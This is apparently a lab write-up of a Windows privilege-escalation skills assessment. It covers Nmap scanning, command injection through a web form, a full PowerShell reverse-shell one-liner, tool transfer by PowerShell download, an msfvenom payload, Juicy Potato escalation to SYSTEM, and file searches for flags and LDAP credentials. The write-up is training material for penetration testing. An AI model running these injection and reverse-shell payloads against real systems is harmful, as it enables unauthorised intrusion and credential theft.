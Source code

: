 # Windows Privilege Escalation Skills Assessment - Part I
During a penetration test against the INLANEFREIGHT organization, you encounter a non-domain joined Windows server host that suffers from an unpatched command injection vulnerability. After gaining a foothold, you come across credentials that may be useful for lateral movement later in the assessment and uncover another flaw that can be leveraged to escalate privileges on the target host.

For this assessment, assume that your client has a relatively mature patch/vulnerability management program but is understaffed and unaware of many of the best practices around configuration management, which could leave a host open to privilege escalation.

Enumerate the host (starting with an Nmap port scan to identify accessible ports/services), leverage the command injection flaw to gain reverse shell access, escalate privileges to `NT AUTHORITY\SYSTEM` level or similar access, and answer the questions below to complete this portion of the assessment.

## 🔎 Initial Recon with Nmap
My first step was to identify open ports and services running on the target machine using a stealthy scan:
```bash
sudo nmap -sC -sV -Pn 10.129.225.12
```
![image](https://github.com/user-attachments/assets/2692cd59-62af-4611-b4ba-183d66e38bc9)

**Key Findings:**
Port 80 is running Microsoft IIS 10.0, showing a basic page titled “DEV Connection Tester.”

Port 3389 is open but not useful in our case since we don’t have valid credentials for RDP.

TRACE is enabled, which could be risky, but the bigger lead is the web interface.

## 🌐 Accessing the Web Interface
Visiting http://10.129.225.12/ in the browser revealed something interesting — a webshell interface.
After a few attempts, I realized the interface accepted system commands and returned output, albeit in a sanitized format.

![image](https://github.com/user-attachments/assets/4c92a944-0c39-453b-bd66-f8efe498db3f)

When I tested with whoami; responded with host not found. 

## 🧪 Testing Command Injection Behavior
To understand the command parser behind the webshell, I tested some basic input tricks:
```bash
127.0.0.1 | whoami
```
This worked and printed the result — suggesting the backend was piping the input and not strictly validating or sanitizing it. This was crucial for payload crafting.

![image](https://github.com/user-attachments/assets/ebc32339-7cff-457b-96ba-a4c162a8dddc)

## 🕵️‍♂️ Exploiting for Reverse Shell
Since we couldn’t interact directly with the shell, I needed a PowerShell reverse shell payload that could be injected via this command interface.

Here’s the PowerShell one-liner I used:
```bash
127.0.0.1 | powershell -nop -w hidden -c "$client = New-Object Net.Sockets.TCPClient('10.10.14.45',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
🔥 The use of `127.0.0.1 |` helped bypass some restrictions in the input handling logic.

## 🛎️ Setting Up a Netcat Listener
On my attacker machine, I set up a listener to catch the reverse shell:
```bash
nc -lvnp 4444
```
After submitting the payload via the webshell, I received a connection!
Got a reverse shell as a low-privilege user.

![image](https://github.com/user-attachments/assets/c34679cc-f34e-4727-9867-49226bdbcb8f)

## 🔍 Privilege Escalation Discovery
Checked for privileges with `whoami /priv` command and found that `SeImpersonatePrivilege` Enabled.

![image](https://github.com/user-attachments/assets/fe146445-f6ab-48bb-9626-aed0c7211573)

Machine is vulnerable to Juicy Potato privilege escalation (Windows Server 2016 + SeImpersonate).

## 🛠️ Tool Transfer and Execution
**Setup HTTP Server (Attacker)**
```wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
python3 -m http.server 8080
```
**Transfer JuicyPotato to Victim**
```bash
powershell -c "(New-Object Net.WebClient).DownloadFile('http://10.10.14.45:8080/JuicyPotato.exe','C:\Tools\jp.exe')"
```
**Create Reverse Shell Payload**
```bash
msfvenom -p cmd/windows/reverse_powershell lhost=10.10.14.45 lport=9999 -f raw > shell.bat
```
Transfer shell.bat using the same HTTP server and PowerShell download method.

![image](https://github.com/user-attachments/assets/cbeb88e1-dd45-471a-bb34-63943d035411)


**Execute Juicy Potato**
```bash
C:\Tools\jp.exe -l 53375 -p C:\Windows\System32\cmd.exe -a "/c C:\Tools\shell.bat" -t * -c "{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}"
```
![image](https://github.com/user-attachments/assets/9957404b-d484-4015-a238-3ab08319a021)

**Set listener:**
```bash
nc -lvnp 9999
```
![image](https://github.com/user-attachments/assets/3dafa90c-05ff-4b14-8e1b-09c833856c18)

## ✅ Privilege Escalation Achieved
In the new shell:
```bash
whoami
```
![image](https://github.com/user-attachments/assets/cd86fdc8-9d5c-4d23-9b2a-5ac75807a5de)

## 🎯 Post Exploitation and Flag Retrieval
**Search for Sensitive Files**
```bash
dir C:\ /s /b | findstr /i "confidential.txt"
```
Found confidential.txt containing a flag.

![image](https://github.com/user-attachments/assets/7090d170-1003-47a3-aeb3-d757ad0eac1f)

**Administrator Flag**

Negivated to the Administrator's Desktop and found a flag.

**Search for LDAP Password**
```bash
powershell -Command "Get-ChildItem -Path C:\Users\ -Recurse -File -ErrorAction SilentlyContinue | Select-String -Pattern 'ldapadmin'"
```
![image](https://github.com/user-attachments/assets/a2cbaa77-0854-4e05-80c3-4647842127b2)

Successfully found credentials or strings related to `ldapadmin`.

**Patch Check**

`systeminfo' gave two KB's running in the system.

